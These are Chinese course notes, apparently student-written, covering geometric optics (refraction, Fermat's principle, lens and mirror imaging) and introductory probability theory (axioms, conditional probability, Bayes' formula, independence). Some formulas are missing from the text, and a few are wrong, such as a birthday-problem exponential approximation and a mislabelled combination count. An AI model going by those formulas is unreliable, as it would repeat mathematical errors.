\[ n_1 \sin \theta_1 = n_2 \sin \theta_2 \]其中 \(n_1\) 和 \(n_2\) 分别是两种介质的折射率，\(\theta_1\) 和 \(\theta_2\) 分别是入射角和折射角
折射率的定义：\(n = \dfrac{c}{v}\)，其中 \(c\) 是真空中的光速，\(v\) 是介质中的光速，根据麦克斯韦方程组，我们知道折射率为 \(n = \sqrt{\kappa_e \kappa_m}\)
在相同的介质中，不同频率的光的折射率也有所不同，频率越高，折射率越大 $$ n_{blue} = 1.53, \quad n_{red} = 1.52 $$
全反射¶
当光从光密介质射入光疏介质（如从玻璃或水到空气），当入射角大于临界角时，光就不会再发生折射，而是全部被反射回光密介质，这种现象称为全反射

当入射角恰好达到临界角时，折射角为 \(\theta_2 = 90^\circ\)，又由 \(n_1 \sin \theta_1 = n_2 \sin \theta_2\)，可得 $$ \sin \theta_1 = \dfrac{n_2}{n_1} $$
Tip
空气中的折射率为1，因此我们可以以下公式求解某介质的折射率 $$ n = \dfrac{\sin \theta_1}{\sin \theta_2} $$ 其中 \(\theta_1\) 为空气中的入射角，\(\theta_2\) 为折射角
色散¶

色散是指白光或复色光在通过介质时，由于其中不同波长的光由于折射率的不同而产生的不同程度的偏折，从而使得白光被分解为各种单色光的现象。这是光的波动性的一种表现
在相同的介质中，不同频率的光的折射率也有所不同，频率越高（波长越短），折射率越大；频率越低（波长越长），折射率越小
- 短波长的光（如紫光）波长小，频率高，折射率大，偏折角大
- 长波长的光（如红光）波长大，频率低，折射率小，偏折角小
求棱镜的折射率

原光线与经过棱镜折射后的光线夹角为 \(\delta\)，棱镜的顶角为 \(\alpha = i_2 - i'_2\)
要求出棱镜的折射率，我们需要知道偏移角 \(\delta\) 的最小值，对 \(\delta\) 关于入射角 \(i_1\) 求导，令导数为0，即可求得最小值
因此我们知道此时 \(i_1 = i'_1\)，带入求得 \(\delta_{min} = 2i_1 - \alpha\) 后，再带入折射定律，即可求得折射率
惠更斯原理¶
惠更斯原理
波前（例如球面波或平面波的最边缘）上的每一点都可以被看作是一个新的次波源，这些次波源会以相同的速度向外发出次级波前。通过将所有这些次级波前叠加起来，可以得到新的总波前。这意味着，任何时刻的总波前都是由之前所有点产生的次级波前组合而成的。


惠更斯原理解释光的反射和折射

-
反射： $$ A_1 C_1 = A_n B_n = v_1 t_n $$ $$ \Delta A_1 C_1 B_n \cong \Delta B_n A_n A_1 $$ $$ \therefore \angle A_n A_1 B_n = \angle C_1 B_n A_1 $$ 最后就可以得到反射定律：反射角等于入射角 $$ \Rightarrow i_1' = i_1 $$
-
折射： $$ \angle D_1 B_n A_1 = i_2 $$ $$ \sin i_2 = \frac{A_1 D_1}{A_1 B_n}, \quad \sin i_1 = \frac{A_n B_n}{A_1 B_n} $$ $$ \therefore \frac{\sin i_1}{\sin i_2} = \frac{A_n B_n}{A_1 D_1} = \frac{v_1 t}{v_2 t} = \frac{v_1}{v_2} $$
这时我们把 \(v=\dfrac{c}{n}\) 带入上式，就可以得到折射定律
费马原理¶

光在介质中的运动速度小于真空中的光速，在同等的时间内，光在介质中的运动距离要更短。我们将光程定义为在相同的时间内，光在在介质中的运动距离乘以介质的折射率，也就是说，光程相当于光在真空中运动的“等效距离” $$ L = n_1 s_1 + n_2 s_2 $$ 其中 \(s_1\) 和 \(s_2\) 分别是光在两种介质中的实际运动距离，\(n_1\) 和 \(n_2\) 分别是两种介质的折射率
对于更一般的情况，我们采用积分的形式 $$ L = \int n ds $$
费马原理
费马原理是指，若光线在传播过程中可以成像，那么光程的变分为零（对于某一个变量求偏导为零，也就是光程取极值），即 $$ \delta L = \delta \int n ds = 0 $$
使用费马原理证明反射和折射

如图所示，光在空气中照射到介质发生反射，光程为 $$ L = \sqrt{a^2 + x^2} + \sqrt{b^2 + (d-x)^2} $$
对光程求变分，令 \(\delta L = 0\)，即 $$ \dfrac{dL}{dx} = \dfrac{x}{\sqrt{a^2 + x^2}} - \dfrac{d-x}{\sqrt{b^2 + (d-x)^2}} = 0 $$ 于是我们就得到 $$ \dfrac{x}{\sqrt{a^2 + x^2}} = \dfrac{d-x}{\sqrt{b^2 + (d-x)^2}} $$ 即 $$ \sin \theta_1 = \sin \theta_2 \Rightarrow \theta_1 = \theta_2 $$ 反射角等于入射角，这就是反射定律

如图所示，光在从折射率为 \(n_1\) 的介质射入折射率为 \(n_2\) 的介质，光程为 $$ L = n_1 \sqrt{a^2 + x^2} + n_2 \sqrt{b^2 + (d-x)^2} $$
对光程求变分，令 \(\delta L = 0\)，即 $$ \dfrac{dL}{dx} = n_1 \dfrac{x}{\sqrt{a^2 + x^2}} - n_2 \dfrac{d-x}{\sqrt{b^2 + (d-x)^2}} = 0 $$ 于是我们就得到 $$ n_1 \dfrac{x}{\sqrt{a^2 + x^2}} = n_2 \dfrac{d-x}{\sqrt{b^2 + (d-x)^2}} $$ 即 $$ n_1 \sin \theta_1 = n_2 \sin \theta_2 $$ 这就是折射定律
成像¶
光线经过透镜折射或者镜面反射后，会在一定位置形成物体的像，像分为实像和虚像，成像的物体也可分为实物和虚物


- 实像：经过折射或反射后的实际光线通过同一点，就称在交点处形成实像
- 虚像：经过折射或反射后的光线不通过同一点，但它们的反向延长线交于一点，就称在交点处形成虚像
- 实物：出发光线交汇于同一点（从同一点出发）
- 虚物：出发光线不交汇于同一点，但出发光线的延长线交于一点
根据费马原理我们知道成像时所有的光线等光程。我们讨论的问题一般是物体从透镜左边发出光线，在透镜右侧成像，因此称左侧为物方，右侧为像方
球面镜成像¶

我们首先讨论球面镜折射成像的规律，在上图中，点 \(C\) 为球心，\(r\) 为半径，\(Q\) 和 \(Q'\) 分别是物体和像的位置，物和像距离球面的距离分别为 \(o\) 和 \(i\)
首先在三角形 \(QCM\) 和 \(Q'CM\) 中使用正弦定理
其中 \(n \sin \theta = n' \sin \theta'\)，\(\theta - u = \theta' + u' = \phi\)
于是得到
我们再使用余弦定理，并带入 \(\cos \phi = 1 - 2\sin^2 \dfrac{\phi}{2}\)
代会回前面的式子就得到
上面这个式子告诉我们，由于从同一点出发的光线的 \(\phi\) 不同，成像的位置也会不同，因此球面不能成像。
仅有两种情况下球面可以成像
-
其中一种情况满足
\[ \begin{cases} \dfrac{o^2}{n^2 (o+r)^2} - \dfrac{i^2}{n'^2 (i-r)^2} = 0 \\\\ \dfrac{1}{n^2 (o+r)} + \dfrac{1}{n'^2 (i-r)} = 0 \end{cases} \]此时 \(o\) 和 \(i\) 与 \(\phi\) 无关，物和像所在的这一对点我们称为齐明点。
-
另一种情况是旁轴近似的情况，即 \(\phi\) 很小
\[ \sin^2 \dfrac{\phi}{2} \approx \dfrac{\phi^2}{4} \to 0 \]此时我们可以近似得到 $$ \dfrac{o^2}{n^2 (o+r)^2} = \dfrac{i^2}{n'^2 (i-r)^2} $$ 即 $$ \dfrac{o}{n (o+r)} = \dfrac{i}{n' (i-r)} $$ $$ \dfrac{n'}{i} + \dfrac{n}{o} = \dfrac{n'-n}{r} $$
当 \(i \to \infty\) 时，我们可以得到这个球面镜的第一焦距为
\[ f = \dfrac{n}{n'-n} r \]当 \(o \to f\) 时，我们可以得到这个球面镜的第二焦距为
\[ f' = \dfrac{n'}{n'-n} r \]于是 $$ \dfrac{f}{f'} = \dfrac{n}{n'} \Longrightarrow \dfrac{f}{o} + \dfrac{f'}{i} = 1 $$
这就是球面镜的焦距公式
符号约定
我们假设光线从左侧照射到右侧
-
\(Q\) 在左侧时为实物，\(o>0\)
\(Q\) 在右侧时为虚物，\(o<0\)
-
\(Q'\) 在右侧时为实像，\(i>0\)
\(Q'\) 在左侧时为虚像，\(i<0\)
-
球心 \(C\) 在左侧时为凹面镜，\(r<0\)
球心 \(C\) 在右侧时为凸面镜，\(r>0\)


球面镜反射成像¶

球面镜发生反射时，\(Q\) 和 \(Q'\) 都在左侧，成虚像 \(i < 0\)
事实上反射可以看作是折射的一种特殊情况 $$ n \sin \theta = n' \sin \theta' $$
如果 \(\theta > 0\)，则 \(\theta' < 0\)，就得到 $$ n = -n' $$
于是第一和第二焦距分别为 $$ f = \dfrac{n}{n'-n} r = -\dfrac{r}{2} $$ $$ f' = \dfrac{n'}{n'-n} r = \dfrac{r}{2} $$
带入焦距公式 $ \dfrac{f}{o} + \dfrac{f'}{i} = 1 $ 就可以得到 $$ \dfrac{1}{o} + \dfrac{1}{i} = -\dfrac{2}{r} $$
特别的，对于一个平面镜，可以认为 \(r \to \infty\)，此时焦距公式就变为
即物体和像到镜面的距离相等
傍轴物点成像和横向放大率¶

我们记物体和像距离透镜轴线的距离分别为 \(y, y'\)，我们规定在轴线上方时为正，下方时为负。
当物体很靠近轴线时，\(y^2, y'^2 << o^2, i^2, r^2\)，并且 $$ n\theta \approx n'\theta',\quad y \approx o \cdot \theta,\quad y' \approx i \cdot \theta' $$
因此放大率为 $$ m = \dfrac{y'}{y} = -\dfrac{i\theta'}{o\theta} = -\dfrac{ni}{n'o} $$
对于反射，则是 $$ m = -\dfrac{i}{o} $$
薄透镜成像¶
对于绝大多数的情况，光不止会经过一个折射面


对这两个面分别使用球面镜成像的公式，我们可以得到
其中我们知道 \(-o_2 = i_1 - d\)，即 \(o_2 = d - i_1\)，当透镜是一个薄透镜时，\(d\) 很小，\(i_1 \approx o_2\)，因此
磨镜者公式
将上面的式子与下式进行比较 $$ \dfrac{f}{o} + \dfrac{f'}{i} = 1 $$
可以得到下面两个式子
所以 \(\dfrac{f'}{f} = \dfrac{n'}{n}\)，如果在空气中, \(n=n'=1\)
最终就可以得到磨镜者公式
凸透镜与凹透镜
- 如果 \(f>0, f'>0\) 则说明透镜是一个凸透镜（converging lens）
- 如果 \(f<0, f'<0\) 则说明透镜是一个凹透镜（diverging lens）
成像焦距公式¶
对于 $$ \dfrac{f}{o} + \dfrac{f'}{i} = 1 $$
如果 \(n=n', f=f'\) 就可以得到高斯形式的成像焦距公式 $$ \dfrac{1}{o} + \dfrac{1}{i} = \dfrac{1}{f} $$

对于上图来说，如果
就有 $$ \dfrac{1}{f + x} + \dfrac{1}{f' + x'} = \dfrac{1}{f} $$
就得到牛顿形式的成像焦距公式 $$ x x' = f^2 = f f' $$
Tip
- 当物体 \(Q\) 在左焦点 \(F\) 左边时，\(x>0\)；在右边时，\(x<0\)
- 当像 \(Q'\) 在右焦点 \(F'\) 右边时，\(x'>0\)；在左边时，\(x'<0\)
横向放大倍数¶

现在我们回过头来讨论上面这幅图的放大倍数，首先我们有
两个折射面的放大倍率分别为 $$ m_1 = -\dfrac{n i_1}{n_L o_1} \quad m_2 = -\dfrac{n_L i_2}{n' o_2} $$
于是总的放大倍数为
屈光度
屈光度（diopter）定义为焦距的倒数，
其中 \(m\) 是放大倍数
例如 \(f = -50cm =-0.5m\)，则 \(P = -2.00D\) 为200度
Ended: 普通物理学Ⅱ
概率论 ↵
约 80 个字 预计阅读时间不到 1 分钟
任课教师：苏中根
成绩组成
- 平时成绩（点名、作业） 20%
- 期中成绩（随堂考试） 20%
- 期末成绩 60%
主要内容：运用数学工具刻画随机现象规律
目录¶
第一章 事件及其概率¶
约 3431 个字 预计阅读时间 14 分钟
随机现象与统计规律性¶
- 必然事件：必然会发生的事件
- 不可能事件：必然不会发生的事件
- 随机事件：在一定条件下，不能准确预测其结果的事件
在相同条件下重复做 \(N\) 次试验，各次试验互不影响，考察事件 \(A\) 发生的次数（频数） \(n\)，称 \(F_N(A)=\frac{n}{N}\) 为 \(A\) 在 \(N\) 次试验中发生的频率。 频率所稳定到的那个常数可以表示事件 \(A\) 的概率，记为 \(P(A)\)。
频率的性质
从频率的定义可以看出频率有以下性质：
- 非负性：\(0\leqslant F_N(A)\leqslant 1\)
- 规范性：对必然事件 \(\Omega\)，\(F_N(\Omega)=\frac{N}{N}=1\)
- 可列可加性：若 \(A_1,A_2,\cdots\) 两两互斥，则 \(F_N(A_1\cup A_2\cup\cdots)=F_N(A_1)+F_N(A_2)+\cdots\)
古典概型¶
随机试验的每一基本结果称为样本点，记作 \(\omega\)，所有基本事件的全体称为样本空间，记为 \(\Omega\)。
古典概型的特征
- 样本空间是有限的，\(\Omega=\{\omega_1,\omega_2,\cdots,\omega_n\}\)，其中 \(\omega_i(I=1,2,\cdot，n)\) 是基本事件
- 每个基本事件发生的可能性相同，即 \(P(\omega_i)=\frac{1}{n}\)
古典概率的定义：
- 设试验有 \(n\) 个等可能的基本事件，而 \(A\) 事件恰包含其中 \(m\) 个基本事件，则 \(P(A)\) 定义为
古典概率的性质
从古典概型的定义可以看出概率有以下性质：
- 非负性：\(0\leqslant P(A)\leqslant 1\)
- 规范性：\(P(\Omega)=1\)
- 可列可加性：若 \(A_1,A_2,\cdots\) 两两互斥，则 \(P(A_1\cup A_2\cup\cdots)=P(A_1)+P(A_2)+\cdots\)
特别地，若 \(A\) 与 \(B\) 两事件互反（不可能同时发生且至少发生一个），则 \(P(A)=1 - P(B)\)
Example
设有 \(n\) 个球，\(N\) 个格子\((n \leqslant N)\)，球和格子都是可以区分的。每个球落在各格子内的概率相同（设格子足够大，可以容纳任意多个球），将这 \(n\) 个球随机地放入这 \(N\) 个格子中，求：
- 指定的 \(n\) 个格子中各有一个球的概率
- 有 \(n\) 个格子各有一球的概率
解： 1. \[P(A) = \frac{n!}{N^n}\] 2. $$ \begin{aligned} P(B) &= \frac{P^n_N}{N^n} = \frac{N(N-1)\cdots(N-n+1)}{N^n} \\ &= \left(1-\frac{1}{N}\right)\left(1-\frac{2}{N}\right)\cdots\left(1-\frac{n-1}{N}\right) \end{aligned} $$ 注意到 \(\log(1-x) = -x +O(x^2),x \rightarrow 0\). 我们有 $$ \begin{aligned} &\log \left(1-\frac{1}{N}\right)\left(1-\frac{2}{N}\right)\cdots\left(1-\frac{n-1}{N}\right)\\ &= \sum_{i=1}^{n-1}\log\left(1-\frac{i}{N}\right) = -\sum_{i=1}^{n-1}\frac{i}{N} + O\left(\frac{1}{N^2}\right)\\ &= -\frac{n(n-1)}{2N} + O\left(\frac{n^3}{N^2}\right) \end{aligned} $$ 故当 \(N\) 比 \(n\) 大得多时，可以采用近似计算公式 \[P(B) \approx \exp{1-\frac{n(n-1)}{2N}}\]
几何概率¶
若样本空间是一个包含无限个点的区域 \(\Omega\)（一维、二维或 \(n\) 维），样本点是区域中的一个点，此时用点数度量样本点的多少就毫无意义。若记事件 $A_g = $ {任取一个样本点，它落在区域 \(g \subset \Omega\) } ，则 \(A_g\) 的概率定义为 $$ P(A_g) = \frac{g 的测度}{\Omega 的测度} $$ 这样定义的概率称为几何概率。
概率的公理化定义¶
事件¶
- 事件一般用大写字母 \(A,B,C,\cdots\) 表示，事件的概率用 \(P(A),P(B),P(C),\cdots\) 表示。
- 样本空间 \(\Omega\) 也可看作一个事件，\(\Omega\) 是必然事件
- 类似地，把空集 \(\emptyset\) 也看作一个事件，\(\emptyset\) 是不可能事件
事件的运算
- \(A\) 包含 \(B\)（\(B\) 包含于 \(A\)）： \(A \supset B(B \subset A)\)
- \(A\) 与 \(B\) 相等： \(A = B\)，即 \(A \supset B\) 且 \(B \supset A\)
- \(A\) 与 \(B\) 的并： \(A \cup B = \{ \omega | \omega \in A 或 \omega \in B \}\)
- \(A\) 与 \(B\) 的交： \(A \cap B = \{ \omega | \omega \in A 且 \omega \in B \}\)
- \(A\) 与 \(B\) 的差： \(A \backslash B = \{ \omega | \omega \in A 且 \omega \notin B \}\)
- \(A\) 与 \(B\) 互不相容（互斥）： \(A \cap B = \emptyset\)，在此时有时用 \(A + B\) 代替 \(A \cup B\)
- \(A\) 与 \(B\) 不可能同时发生，且至少发生一个： \(A \cup B = \Omega, A \cap B = \emptyset\)，则称 \(A\) 与 \(B\) 互反（互为逆事件、对立事件、余事件），记作 \(B = A^c\) 或 \(B = \overline{A}\)
运算性质
- 交换律： \(A \cup B = B \cup A, A \cap B = B \cap A\)
- 结合律： $(A \cup B) \cup C = A \cup (B \cup C),~~ (A \cap B) $
- 分配律： \(A \cup (B \cap C) = (A \cup B) \cap (A \cup C),~~ A \cap (B \cup C) = (A \cap B) \cup (A \cap C)\)
- 对偶律（De Morgan律）： \(\overline{A \cup B} = \overline{A} \cap \overline{B},~~ \overline{A \cap B} = \overline{A} \cup \overline{B}\)
- \(A~ \backslash ~B = A\overline{B}\)
概率空间¶
概率空间包含三个要素。
第一个要素：样本空间 \(\Omega\)，是样本点 \(\omega\) 的全体，根据问题需事先取定。
第二个要素：事件域 \(\mathscr{F}\)，是 \(\Omega\) 中满足下列条件的子集的全体所组成的集合：
- \(\Omega \in \mathscr{F}\)
- 若 \(A \in \mathscr{F}\)，则 \(\overline{A} \in \mathscr{F}\)
- 若 \(A_1,A_2,\cdots, A_n, \cdots \in \mathscr{F}\)，则 \(\cup_{n=1}^{\infty}A_n \in \mathscr{F}\)
满足这三个条件的集合 \(\mathscr{F}\) 称为 \(\Omega\) 上的 \(\sigma\)-代数或 \(\sigma\)-域。\(\mathscr{F}\) 中的元素（\(\Omega\) 的子集）称为事件。
由这三个条件，可以推得事件域有下列性质：
- \(\emptyset \in \mathscr{F}\)（因为 \(\overline{\Omega} = \emptyset\)）
- 若 \(A_1,A_2,\cdots, A_n, \cdots \in \mathscr{F}\)，则 \(\cap_{n=1}^{\infty}A_n \in \mathscr{F}\)（因为 \(\overline{\cup_{n=1}^{\infty}A_n} = \cap_{n=1}^{\infty}\overline{A_n}\)）
- 若 \(A_1,A_2,\cdots, A_n \in \mathscr{F}\)，则 \(\cup_{i=1}^{n}A_i \in \mathscr{F}\)，\(\cap_{i=1}^{n}A_i \in \mathscr{F}\)
事件域也可根据问题选择，对同一样本空间 \(\Omega\) 可能有不同的 \(\sigma\)-代数。
- 如最简单的事件域 \(\mathscr{F}_1 = \{ \emptyset, \Omega \}\)，称为平凡 \(\sigma\)-代数。
-
复杂的如 \(\mathscr{F}_2 =\) { \(\Omega\) 的一切子集 }。
-
若 \(\Omega\) 由有限或可列个样本点组成，则常取 \(\Omega\) 的一切子集所成的集类作为 \(\mathscr{F}\)
- 若 \(\Omega = \mathbf{R}\)（一维实数全体），此时常取一切左开右闭有界区间和它们的（有限或可列）并、（有限或可列）交、逆所成的集的全体为 \(\mathscr{F}\)（通常记为 \(\mathscr{B}\)）称为一维波雷尔（Borel）\(\sigma\)-代数，其中的集称为一维波雷尔集，它是比全体区间大得多的一个集类。
- 若 \(\Omega = \mathbf{R}^n\)（\(n\) 维实数全体），则常取一切左开右闭有界 \(n\) 维矩形和它们的（有限或可列）并、（有限或可列）交、逆所成的集的全体为 \(\mathscr{F}\)（通常记为 \(\mathscr{B}^n\)），称为 \(n\) 维波雷尔 \(\sigma\)-代数，其中的集称为 \(n\) 维波雷尔集。
如果我们对 \(\Omega\) 的某个子集类 \(\mathscr{C}\) 感兴趣，所选的事件域 \(\mathscr{F}\)（可以是包含 \(\mathscr{C}\) 的最小 \(\sigma\)-代数，这种 \(\sigma\)-代数是存在的，因为：
- 至少有一个包含 \(\mathscr{C}\) 的 \(\sigma\)-代数，即上述 \(\mathscr{F}_2\)
- 若有很多包含 \(\mathscr{C}\) 的 \(\sigma\)-代数，则它们的交也是 \(\sigma\)-代数，且就是最小的。
特别地，如果我们只对 \(\Omega\) 的一个子集 \(A\) 感兴趣，我们可以取包含 \(A\) 的最小 \(\sigma\)-代数。 \(\(\mathscr{F} = \{ \emptyset, A, \overline{A}, \Omega \}\)\)
第三个要素：概率 \(P\)
概率的定义
概率 \(P\)是定义在事件域 \(\mathscr{F}\) 上的实值集函数，满足以下三个条件：
- 非负性：\(P(A) \geqslant 0，A \in \mathscr{F}\)
- 规范性：\(P(\Omega) = 1\)
- 可列可加性：若 \(A_1,A_2,\cdots, A_n, \cdots \in \mathscr{F}\) 两两互斥，则 $$ P(\sum_{n=1}^{\infty}A_n) = \sum_{n=1}^{\infty}P(A_n) $$
用测度论的语言来说，概率 \(P\) 是定义在 \(\sigma\)-代数上的规范化的测度。
三元体（\(\Omega, \mathscr{F}, P\)）称为概率空间。
概率的运算公式
- \(P(\emptyset) = 0\)
- 若 \(A_i A_j = \emptyset, i,j=1, 2, \cdots, n, i \neq j\)，则
- \(P(\overline{A}) = 1 - P(A)\)
- 若 \(B \subset A\) 则 \(P(A-B) = P(A) - P(B)\)
- \(P(A \cup B) = P(A) + P(B) - P(A \cap B)\)
- \(P(A \backslash B) = P(A) - P(AB)\)
- (多还少补定理)
- （次可列可加性）
概率测度的连续性¶
给定概率空间 \((\Omega, \mathscr{F}, P)\)，若 \(A_1, A_2, \cdots\) 是一列单调增加的事件序列，即
记 \(A = \bigcup_{n=1}^{\infty} A_n\)，称 \(A\) 为事件序列 \(A_n\) 的极限事件。从公理化定义可以看出，\(A\) 仍然是一个事件。下面定理给出该事件的概率大小
定理1.1
若 \(A_1, A_2, \cdots\) 是一列单调增加的事件序列，具有极限 \(A\)，则
对一列单调增加的事件 $ A_1 \subset A_2 \subset \cdots $，记 \(\lim \limits_{n \to \infty} A_n = \bigcup_{n=1}^{\infty} A_n\)，则上述定理说明 $$ P(\lim_{n \to \infty} A_n) = \lim_{n \to \infty} P(A_n) $$ 所以我们说概率具有连续性。
如果 $ A_1 \subset A_2 \subset \cdots $ 是一个单调减少的事件序列，记 \(\lim \limits_{n \to \infty} A_n = \bigcap_{n=1}^{\infty} A_n\)，那么同样有 $$ P(\lim_{n \to \infty} A_n) = \lim_{n \to \infty} P(A_n) $$ 为了进行区分，我们将前者称为概率的上连续性，后者称为概率的下连续性。
事件的上极限和下极限¶
事件是样本点的集合，事件的上极限和下极限就是这个样本点集合的极限。
对于一个事件序列，我们可以更一般地定义它的上极限和下极限
事件的上极限和下极限
对于事件序列 $ { A_n }_{n=1}^{\infty} = A_1 ,\enspace A_2, \cdots $，我们定义
为它的上极限， $$ \liminf_{n \to \infty} A_n = \bigcup_{n=1}^{\infty} \bigcap_{k=n}^{\infty} A_k $$
为它的下极限。
容易验证 $ \liminf \limits_{n \to \infty} A_n \subset \limsup \limits_{n \to \infty} A_n$
如果 $ \liminf \limits_{n \to \infty} A_n = \limsup \limits_{n \to \infty} A_n$，就称 \(A_n\) 的极限存在，并记作 \(\lim \limits_{n \to \infty} A_n\)
- 事件序列的上极限是事件的先并后交，可以认为是所有并集的交
- 事件序列的下极限是事件的先交后并，可以认为是所有交集的并
条件概率与事件的独立性¶
条件概率¶
设 \(A,B\) 是两个事件，且 \(P(B) > 0\)，则在事件 \(B\) 发生的条件下，事件 \(A\) 发生的概率称为事件 \(A\) 关于事件 \(B\) 的条件概率，记作 \(P(A|B)\)
在某种情况下，条件的附加意味着对样本空间的压缩，相应的概率可在压缩的样本空间内直接计算。
定义
对任意事件 \(A\) 和 \(B\)，若 \(P(B) \neq 0\)，则“在事件 \(B\) 发生的条件下 \(A\) 发生的条件概率”，记作 \(P(A|B)\)，定义为 \(\(P(A|B) = \frac{P(AB)}{P(B)}\)\) 反过来也可用条件概率表示 \(A, B\) 的乘积概率，即有乘法公式 $$ P(AB) = P(A|B)P(B) , P(B) \neq 0 $$ 或 $$ P(AB) = P(B|A)P(A) , P(A) \neq 0 $$
全概率公式与贝叶斯公式¶
定义1.3
若事件列 $ \{ A_1, A_2 \cdots, A_n \cdots \} $ 满足下列两个条件
- $A_i, i=1, 2, \cdots $ 两两互不相容，且 \(P(A_i) > 0\)
- \(\sum_{i=1}^{\infty}A_i = \Omega\)
则称 $ { A_1, A_2 \cdots, A_n \cdots } $ 为 \(\Omega\) 的一个完备事件组，也称为 \(\Omega\) 的一个分割。
- 最简单的完备事件组是 \(\{ A, \overline{A}\}\)
定理1.2（全概率公式）
设 $ { A_1, A_2 \cdots, A_n \cdots } $ 是 \(\Omega\) 的一个完备事件组，\(B\) 是任一事件，则 $$ P(B) = \sum_{i=1}^{\infty}P(A_i)P(B|A_i) $$
- 概率公式的意义在于，它把事件 \(B\) 的概率 \(P(B)\) 分解为若干个条件概率的乘积之和。
贝叶斯公式
设 $ \{ A_1, A_2 \cdots, A_n \cdots \} $ 是 \(\Omega\) 的一个完备事件组，\(B\) 是任一事件，且 \(P(B) > 0\)，则 $$ P(A_i|B) = \frac{P(A_i)P(B|A_i)}{\sum_{k=1}^{\infty}P(A_k)P(B|A_k)} $$
- \(P(A_i)\) 是没有进一步的信息（不知道 \(B\) 是否发生）时，对 \(A_i\) 概率的估计，称为先验概率
-
\(P(A_i|B)\) 是在事件 \(B\) 发生后对 \(A_i\) 发生概率的估计，称为后验概率
-
全概率公式：“由原因推结果”
- 贝叶斯公式：“由结果推原因”
事件独立性¶
两个事件的独立性¶
- 当 \(P(A|B) = P(A)\) ,即 \(P(AB) = P(A)P(B)\) 时，称事件 \(A\) 与事件 \(B\) 统计独立，或 \(A\) 与 \(B\) 独立，记作 \(A \perp B\)。
- 当 \(A\) 与 \(B\) 不独立时，也称 \(A\) 与 \(B\) 统计相依。
例题
求证：若 \(A\) 与 \(B\) 互不相容，且 \(P(A)P(B) \neq 0\)，则 \(A\) 与 \(B\) 不独立。 证明：\(A\) 与 \(B\)不相容，则 \(P(AB) = 0 \neq P(A)P(B)\)，故 \(A\) 与 \(B\) 不独立。
已知 \(A\) 与 \(B\) 独立，求证 \(A\) 与 \(\overline{B}\)，\(\overline{A}\) 与 \(B\)，\(\overline{A}\) 与 \(\overline{B}\) 也独立。 证明：由 \(A\) 与 \(B\) 独立，有 \(P(AB) = P(A)P(B)\)，从而 $$ \begin{aligned} P(A\overline{B}) &= P(A) - P(AB) = P(A) - P(A)P(B) \\ &= P(A) - P(A)P(B) = P(A)(1-P(B)) \\ &= P(A)P(\overline{B}) \\ \end{aligned} $$
多个时间的独立性¶
定义1.5
若 $$ \begin{cases} P(AB) = P(A)P(B) \\ P(AC) = P(A)P(C) \\ P(BC) = P(B)P(C) \end{cases} $$ 且 \(P(ABC) = P(A)P(B)P(C)\) 则称事件 \(A, B, C\) 相互独立。
定义1.6
若对一切可能的组合 \(1 \leqslant i < j < k < \cdots \leqslant n\)，有 $$ \begin{cases} P(A_iA_j) = P(A_i)P(A_j)\\ P(A_iA_jA_k) = P(A_i)P(A_j)P(A_k)\\ \cdots \\ P(A_iA_jA_k\cdots A_n) = P(A_i)P(A_j)P(A_k) \cdots P(A_n) \end{cases} $$ 就称 \(A_1, A_2, \cdots, A_n\) 相互独立。
试验的独立性¶
与事件的独立性密切相关的是随机试验的独立性。
- 一般来说，若有 \(n\) 个试验 \(E_1, E_2, \cdots, E_n\)，每个试验的每个结果都是一个事件。如果 \(E_1\) 的任一事件都与 \(E_2\) 的任一事件与 \(\cdots\) 与 \(E_n\) 的任一事件相互独立，就说 \(E_1, E_2, \cdots, E_n\) 相互独立
- 记 \(E_i\) 的样本空间为 \(\Omega_i\) 为描述这 \(n\) 次试验，要构造复合试验 \(E = (E_1, E_2, \cdots, E_n)\) 对应的样本空间为 \(\Omega = \Omega_1 \times \Omega_2 \times \cdots \times \Omega_n\) 是 \(n\) 个样本空间的直积
- \(E\) 中的样本点 \(\omega = (\omega^{(1)}, \cdots, \omega^{(n)})\)，其中 \(\omega^{(i)} \in \Omega_i\)
若 \(A^{(i)}\) 为 \(E_i\) 的任一事件，对一切 \(A^{(1)}, A^{(2)}, \cdots, A^{(n)}\) 均有 $$ P(A^{(1)}A^{(2)} \cdots A^{(n)}) = P(A^{(1)})P(A^{(2)}) \cdots P(A^{(n)})$$
伯努利概型¶
- 若一次随机试验\(E\)只有\(A\)与\(\overline{A}\)两种相反的结果（是与否，成功与失败等），就称其为伯努利试验。对于\(n\)次重复独立的伯努利试验，这种概率模型称为伯努利概型。
二项分布：\(n\) 次伯努利试验中事件 \(A\) 恰好发生 \(k\) 次的概率为（设 \(A\) 的概率为 \(p\)，\(\overline{A}\) 发生的概率为 \(q\) ） $$ b(k, n, p) = \binom{n}{k} p^k q^{n-k} = \frac{n!}{k!(n-k)!} p^k q^{n-k}, k=0, 1, \cdots, n $$
补充与注记¶
从\(n\)个不同物件中取\(k\)个\((1 \leqslant r \leqslant n)\)的不同排列总数为 $$ P^r_n = n(n-1)(n-2) \cdots (n-r+1) $$
- 特别的，若\(r=n\)，有 \(P^r_r = r(r-1) \cdots 1 = r!\)，将其称为全排列。
- 人们常约定把 \(0!\) 作为 \(1\)。
从\(n\)个不同物件中取\(k\)个\((1 \leqslant r \leqslant n)\)的不同排列总数为 $$ \binom{n}{r} = \frac{P^r_n}{r!} = \frac{n!}{r!(n-r)!} $$
组合数也常称为二项式系数 $$ (a+b)^n = \sum^n_{i=0} \binom{n}{i} a^i b^{n-i} $$
一些常用的公式： $$ \binom{n}{0} + \binom{n}{1} + \cdots + \binom{n}{n} = 2^n $$ $$ \binom{n}{0} - \binom{n}{1} + \cdots + (-1)^n \binom{n}{n} = 0 $$ $$ \binom{n}{k-1} + \binom{n}{k} = \binom{n+1}{k} $$ $$ \binom{m+n}{k} = \sum_{i=0}^k \binom{m}{i}\binom{n}{k-i} $$ $$ \sum_{i=0}^n \binom{n}{i} \binom{n}{i} = \binom{2n}{n} $$
第二章 随机变量与分布函数¶
约 2352 个字 预计阅读时间 9 分钟
离散型随机变量及其分布¶
随机变量的概念¶
回顾第一章的内容，我们把由直线上一切左开右闭区间和它们经过有限或可列次交、并、逆等运算得到的点集\(B\)称为（一维）波雷尔集，包括有限或无限的开区间、闭区间、半开半闭区间，以及它们的有限个或可列个交、并。并且我们还把波雷尔集的全体 \(\mathcal{B}\) 称为波雷尔域。
根据上面的说明，我们可以给出随机变量在数学上的严格定义
随机变量
